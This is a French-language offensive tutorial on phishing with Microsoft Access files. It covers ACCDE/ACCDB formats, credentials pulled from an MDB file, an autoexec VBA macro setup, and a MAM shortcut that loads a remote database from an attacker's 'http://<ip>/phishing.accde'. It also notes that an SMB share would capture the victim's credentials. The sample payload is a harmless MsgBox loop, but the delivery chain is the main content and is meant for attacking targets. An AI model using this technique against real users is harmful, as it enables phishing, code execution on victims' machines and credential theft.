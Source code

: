 Prérequis :

-   Programmation en VBA
-   Compréhension général des services Microsoft en Pentesting.
    

Comprendre le Sevice Access :

les fichiers avec pour extension ACCDE (Microsoft Access Execute Only Database) sont des fichiers utilisés pour protéger un fichier ACCDB. Il remplace le format MDE qui sécurise un fichier MDB utilisé par les anciennes versions d’Access. les permissions ne permettent pas de lire le code des macros (permissions Execute). C'est à dire que le code VBA d’un fichier ACCDE est enregistré de manière à empêcher quiconque de le voir ou de le modifier.

![](https://media.discordapp.net/attachments/909429116707680256/919240781158567986/unknown.png)

les differences majeur entre ACCDB et MDB c'est que ACCDB ne prennent pas en charge la sécurité ou la réplication au niveau de l’utilisateur alors que MDB oui, par contre ACCDB utilise un système cryptographique plus avancée via les API windows.

Exemple de fichier MDB :

![](https://media.discordapp.net/attachments/909429116707680256/919245188092801054/unknown.png)

Comme vous pouvez le voir les données sont partiellement chiffré on peut obtenir ces données : `Driver.SQLServer.SERVER\SQLEXPRESS` `UID: CEOuser` `PWD: CEOpassword`

Exemple de fichier ACCDB :

![](https://media.discordapp.net/attachments/909429116707680256/919246921380552704/unknown.png)

c'est illisible mais nous pouvons malgé tout avoir accès à certaines données via `strings`

![](https://media.discordapp.net/attachments/713142876241920000/919261585929809980/unknown.png)

MDB et ACCDB sont des bases de données de Microsoft Access, mais MDB n'est plus utilisé dans les versions récentes. Chaque DB contiennent différents objets comme les tables, requêtes, formulaires, états, ou encore des macros et du code VBA ( Visual Basic ). Les fichiers correspondant aux bases de données Access sont souvent lié à un fichier appellé LACCDB ou LDB pour les ancienne versions. ces fichiers sont des fichiers de verrouillage qui permettent de déterminer quels enregistrements sont verrouillés dans une base de données partagée et par qui ils sont verrouillés.

![](https://media.discordapp.net/attachments/909429116707680256/919249514563518495/unknown.png?width=522&height=343)

le but du phishing via Access peux permettre à un attaquant de gérérer un code VBA malveillant en ACCDE et en autoexec pour que au moment de l'execution la victime soit automatiquement redirigé vers le serveurs de l'attaquant.

pour l'exemple nous allons faire un code VBA innoffensif qui va faire une boucle sur la pop up.

```vb
Public Function main()
	func
End Function

Sub func()
	do
	  Msgbox"RISTBS LE AKER PRO",0+16,"An0nym0us"
	loop
End Sub
```

![](https://media.discordapp.net/attachments/713142876241920000/919256210790838352/unknown.png?width=974&height=192)

pour mettre une macro et mettre l'autoexec, aller dans `Créer`->`Macro` et ajouter l'action `ExcuterCode` puis mettre la fonction principal de ton code pour ma part c'est `main()` et après `Ctrl-S` nommez le _autoexec_.

Utilisation de MAM sur un serveur HTTP mais on peut utiliser un partage SMB ce qui va en meme temps volé les creds de la cible.

```powershell
[Shortcut Properties]
AccessShortcutVersion=1
DatabaseName=phishing.accdb
ObjectName=autoexec
ObjectType=Macro
Computer=DESKTOP-3IEFJ48
DatabasePath=http://<ip>/phishing.accde
EnableRemote=0
CreationTime= 1d7ee7f7e171f3a
Icon=265
```

![](https://media.discordapp.net/attachments/713142876241920000/919274348836171818/unknown.png?width=974&height=440)

Lors de l'execution du MAM voila ce qu'il ce passe.

![](https://media.discordapp.net/attachments/713142876241920000/919251022973653062/unknown.png?width=974&height=215)
